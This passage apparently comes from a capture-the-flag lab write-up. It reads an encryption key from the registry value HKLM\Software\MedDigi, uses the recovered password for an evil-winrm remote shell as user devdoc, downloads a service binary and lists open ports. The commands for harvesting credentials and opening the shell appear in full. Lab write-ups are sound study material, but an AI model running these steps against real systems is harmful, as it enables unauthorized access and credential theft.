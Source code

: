 ```
return null;
}
return value.ToString();
}
catch (Exception ex)
{
ErrorLogger.LogError("Error Retrieving Encryption Key", ex);
((Page)this).Response.Redirect("Error.aspx?message=error+occurred");
return null;
}
}
```

This function is calling me about a HKLM key. And I can query it 

```
C:\>reg query HKLM\Software\MedDigi /v EncKey


HKEY_LOCAL_MACHINE\Software\MedDigi
EncKey REG_SZ 1g0tTh3R3m3dy!!
```


Now I can connect with evil winrm

```
evil-winrm -u devdoc -p '1g0tTh3R3m3dy!!' -i 10.10.11.238 -P 5985
```



Now I need to search a particular executable, on this route:

```
Evil-WinRM* PS C:\Program Files\ReportManagement> download ReportManagement.exe
```

There is a service running on this machine on the port 100 that is using this application

```
netstat -ano
Active Connections
Proto Local Address Foreign Address State PID
TCP 0.0.0.0:80 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:100 0.0.0.0:0 LISTENING 4240
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING 916
TCP 0.0.0.0:443 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:445 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:5040 0.0.0.0:0 LISTENING 4596
TCP 0.0.0.0:5985 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:8080 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:47001 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:49664 0.0.0.0:0 LISTENING 700
TCP 0.0.0.0:49665 0.0.0.0:0 LISTENING 532
TCP 0.0.0.0:49666 0.0.0.0:0 LISTENING 1128
TCP 0.0.0.0:49667 0.0.0.0:0 LISTENING 1532
TCP 0.0.0.0:49668 0.0.0.0:0 LISTENING 680
TCP 10.10.11.238:80 10.10.16.75:48764 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48776 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48792 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48794 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48818 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48828 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48842 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48852 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48860 ESTABLISHED 4
TCP 10.10.11.238:80 10.10.16.75:48866 ESTABLISHED 4
TCP 10.10.11.238:139 0.0.0.0:0 LISTENING 4
```